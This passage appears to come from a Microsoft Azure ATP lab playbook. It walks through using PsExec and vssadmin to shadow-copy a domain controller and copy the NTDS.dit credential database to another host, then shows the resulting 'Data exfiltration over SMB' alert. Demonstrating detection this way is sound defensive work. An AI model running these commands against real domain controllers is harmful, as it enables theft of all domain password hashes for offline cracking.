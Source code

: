 1. Use the same elevated command prompt that you passed *SamiraA* kerberos ticket to in the previous section.
2. Traverse to where PsExec is located and execute the following command.
   ``` cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (vssadmin Create Shadow /For=C:)
   ```
3. Now copy the **NTDS.dit** from the shadow copy back to VictimPC.
   ``` cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit \\VictimPC\NTDS)
   ```
> [!NOTE]
>If attacker tries to copy the NTDS.dit file directly from a Domain Controller the access will be denied. To workaround that attackers create a volume shadow copy and copy the NTDIS.dit from. [VSSadmin](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/vssadmin) is used for that purpose. 
>The command above assumes that this is the first time creating a volume shadow. That is why it's referenced with number **1** in "HarddiskVolumeShadowCopy**1**". If there are other volume shadows you can adjust that number to match.

### Data exfiltration over SMB

Whenever possible attackers prefer offline brute force attacks to harvest users passwords. The main reason is that offline brute force attacks are hard to detect. Contradictly, regular online brute force attacks can be detected by several security tools, also they can be blocked by certain controls such as account lockout thresholds.

Detecting the steps that precedes offline brute force attack over **NTDS.dit** are critical.

Azure ATP detected stealing a copy of the NTDS.dit file from Domain Controller and transferring it to AdminPC over SMB protocol. That is reported as **Data exfiltration over SMB**.
The Azure ATP portal shows from which Domain Controller **NTDS.dit** was transferred to which device. Indicating the size of the file and the time of occurrence.

![Azure ATP detects Data exfiltration over SMB when stealing NTDS.dit from Domain Controller](media/playbook-escalation-ntdsditdetection.png)
